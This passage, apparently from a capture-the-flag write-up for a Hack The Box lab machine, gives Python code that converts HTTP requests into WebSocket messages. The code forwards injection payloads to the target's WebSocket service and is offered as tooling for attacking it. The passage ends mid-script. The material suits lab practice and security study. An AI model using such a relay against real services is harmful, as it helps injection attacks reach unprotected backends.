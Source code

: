 ### Convert websocket to http request

- Convert code (python) 
```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:9696/?id=*")

try:
	middleware_server(('0.0.0.0',9696))
```